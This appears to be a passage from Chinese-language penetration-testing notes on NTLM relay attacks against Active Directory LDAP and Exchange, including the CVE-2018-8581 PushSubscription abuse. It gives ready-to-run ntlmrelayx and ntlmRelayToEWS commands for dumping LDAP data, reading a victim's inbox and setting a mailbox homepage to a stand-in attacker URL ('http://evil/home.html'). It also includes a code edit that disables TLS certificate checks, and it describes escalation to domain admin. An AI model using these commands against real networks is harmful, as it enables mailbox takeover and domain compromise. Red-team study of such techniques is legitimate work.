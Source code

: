 中继至 ldap 时，如果：

1.中继的账户是普通域账户，会 dump 域内 ldap 信息
2.中继的账户是高权限域账户，会自动尝试 ACL 提权

需要注意的是，smb relay to ldap 默认情况下会开启签名，因此只能 http relay to ldap。
```
python3 ntlmrelayx.py -t ldap://192.168.60.112 -smb2support
```

**smb/http relay to http**

中继至 http 时，如果：

1. 中继的账户是普通域用户，可以中继到 Exchange /EWS 接口，实现邮件发送、邮件下载、邮件委托、设置主页等功能
2. 中继的账户是域管账户，可以尝试 ADCS 提权

```bash
python2 ntlmRelayToEWS.py -t https://ip/EWS/exchange.asmx -r getFolder -f inbox -v
python2 ntlmRelayToEWS.py -t https://ip/EWS/exchange.asmx -r setHomePage -u http://evil/home.html -v

# 如果报证书认证错误，需要修改 lib/httprelayclient.py 源码
class HTTPRelayClient:
    def __init__(self, target, body):
        ......
        ......
        if proto.lower() == 'https':
            #Create unverified (insecure) context
            try:
                #uv_context = ssl.SSLContext(ssl.PROTOCOL_SSLv23)
                # uv_context = ssl.create_default_context()
                uv_context = ssl._create_unverified_context() # 把 create_default_context 改成 _create_unverified_context
实战中邮件委托和设置主页两个功能危害较大。
```

#### PushSubscription abuse (CVE-2018-8581)

- https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2018-8581

**简介**

Exchange 的 SSRF 默认携带凭据, 可以用于 Relay

1. 通过 HTTP 使用 NTLM 向攻击者进行交换身份验证
2. 与 NTLM 中继攻击相结合，使得用户可以低权限 (任意拥有邮箱的用户) 提权到域管理员。

**相关文章**
- [微软Exchange爆出0day漏洞，来看POC和技术细节](https://www.freebuf.com/vuls/195162.html)
- [Microsoft Exchange 任意用户伪造漏洞（CVE-2018-8581）分析](https://paper.seebug.org/804/)
- [MICROSOFT EXCHANGE漏洞分析 - CVE-2018-8581](https://0kee.360.cn/blog/microsoft-exchange-cve-2018-8581/)
- [分析CVE-2018-8581：在Microsoft Exchange上冒充用户](https://www.anquanke.com/post/id/168337)
- [船新版本的Exchange Server提权漏洞分析](https://www.anquanke.com/post/id/170199)
- [利用 Exchange SSRF 漏洞和 NTLM 中继沦陷域控](https://paper.seebug.org/833/)
- [Exchange CVE-2018-8581 补丁有用？没用？](https://mp.weixin.qq.com/s/5nPUhIpUB5sR2bmP_getyw)
- https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/pushsubscription-abuse
